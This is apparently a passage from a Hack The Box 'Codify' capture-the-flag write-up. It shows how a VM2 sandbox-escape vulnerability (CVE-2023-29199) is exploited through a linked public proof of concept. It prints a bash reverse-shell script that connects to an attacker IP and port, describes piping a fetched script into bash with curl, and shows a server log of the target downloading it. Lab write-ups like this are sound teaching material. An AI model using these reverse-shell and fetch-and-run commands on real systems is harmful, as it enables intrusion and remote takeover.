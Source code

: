 ![about](about.png)

The page also contains a link to VM2 version 3.9.16. This version is vulnerable to a sandbox-escape vulnerability CVE-2023-29199. We can use the PoC script from [here](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) to get code execution:

We can use this vulnerability to get a reverse shell using a bash payload. A simple bash reverse sehll doesn't seem to work, so we can use cURL and pipe the command to bash:

![rce](posts/HTB%20Machines/Codify/assets/rce.png)

```bash
$ cat shell.sh
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.94/9001 0>&1
```

```
$ python3 -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
::ffff:10.10.11.239 - - [26/Nov/2023 17:01:05] "GET /shell.sh HTTP/1.1" 200 -
```
